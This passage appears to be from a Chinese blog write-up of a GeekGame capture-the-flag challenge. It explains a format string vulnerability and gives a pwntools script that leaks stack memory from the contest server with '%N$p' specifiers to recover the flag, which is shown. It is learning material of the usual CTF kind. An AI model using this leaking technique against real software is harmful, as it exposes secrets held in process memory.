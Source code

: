 大概是先定义了一堆稀奇古怪好像没什么用的变量，然后读了个flag文件存到字符串flag1里面，最后循环让用户输入指令存入buf，并用buf来格式化输出publics、publici这两个字符串？由于这里buf的长度定义1024，且fgets限定了读取长度为1023，故应该没有缓冲区溢出的问题。不过注意到程序可以让用户任意输入format字符串，故还可以考虑一种曾经有所耳闻的漏洞：[格式化字符串漏洞](https://firmianay.gitbooks.io/ctf-all-in-one/content/doc/3.1.1_format_string.html)。


然后又搜到一篇[博客](https://www.cnblogs.com/vi0let/articles/15978166.html)，提到了可以通过%X\$p来查看栈上的数据，虽然我已经不会C语言了，但还是知道这些局部变量是存在栈上的，于是我从1开始试了几个，发现果然有个deadbeef（正是publici的值），不过其他对应字符串的16进制数我看不出来，所以我写了个脚本来遍历：



```python
from pwn import *

r = remote('prob09.geekgame.pku.edu.cn', 10009)
print(r.recvuntil(b'token:').decode())
r.sendline(b'YOUR_TOKEN_HERE')
print(r.recvuntil(b'Please input your instruction:\n'))
for i in range(1, 50):
    r.sendline(f'%{i}$p'.encode())
    result = r.recvuntil(b'Please input your instruction:\n').decode().split('\n')[0]
    if result != '(nil)':
        result = result[2:]
        print(result)
        if len(result) % 2:
            result = result[1:]
        print(bytes.fromhex(result)[::-1])

```

打印的结果里还真有flag：



![](https://fastly.jsdelivr.net/gh/windshadow233/BlogStorage@files/png/00e9dd8674cc7399446619f41edf5927.png)
不过我也不是很懂这其中的细节，等着看看官方&大佬们的题解。


flag{Re4d_PR1nTf_c0de_SO_E4Zy}



## 绝妙的多项式

{% hideToggle 查看题面 %}
{% note primary simple %}

> Welcome to the world of polynomial!


小Y是一个计算机系的同学，但是非常不幸的是他需要上很多的数学专业课。


某一天，他正看着书上一堆式子发呆的时候，突然灵光一闪，想到几个绝妙的多项式。


他想考考你能不能猜出多项式是多少？


当然大家都不会读心术，小Y给了你一些信息

